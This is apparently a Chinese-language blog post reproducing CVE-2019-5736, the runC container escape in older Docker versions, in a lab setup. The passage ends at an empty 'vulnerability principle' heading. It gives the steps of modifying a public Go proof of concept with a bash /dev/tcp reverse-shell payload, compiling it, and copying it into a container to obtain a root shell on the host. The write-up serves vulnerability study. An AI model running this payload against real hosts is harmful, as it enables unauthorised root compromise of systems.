 ```yaml
---
layout: post
title:  "CVE-2019-5736"
categories: escape
tags: docker escape
author: ble55ing
---
```


* content
{:toc}
## CVE-2019-5736

CVE-2019-5736是一个docker的逃逸漏洞，该漏洞是产生于runC容器的，RunC是最初作为docker的一部分开发的，用于处理与运行容器相关的任务。如创建容器、将进程附加到现有容器等。

在docker 18.09.2之前版本中使用了的runc版本小于1.0-rc6，所以会存在这个漏洞。当然不是docker只要用runc小于1.0-rc6，就会存在该漏洞。

该漏洞允许攻击者重写宿主机上的runc 二进制文件，导致攻击者可以在宿主机上以root身份执行命令。

### 漏洞复现

找到了一个一键安装漏洞的脚本https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw/

通过这个脚本会安装该版本的docker，以及一个对应的一个容器，

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20200318211716.png)

有一个go语言写的payload还是很清晰的

https://github.com/Frichetten/CVE-2019-5736-PoC

下载下来修改一下，把执行的payload改为反弹shell的payload 

```
"#!/bin/bash \n bash -i >& /dev/tcp/172.17.0.1/8080 0>& 1 &\n"
```

并编译该paylaod

```
GO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

并将其复制到docker里

```
docker cp main ff0:/home
```

然后只要在docker中启动该程序，再在主机上监听端口，再启动这个容器时，就会反弹一个root权限的shell给主机的终端。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/64.png)

即，通过docker的逃逸得到了一个主机的shell

### 漏洞原理
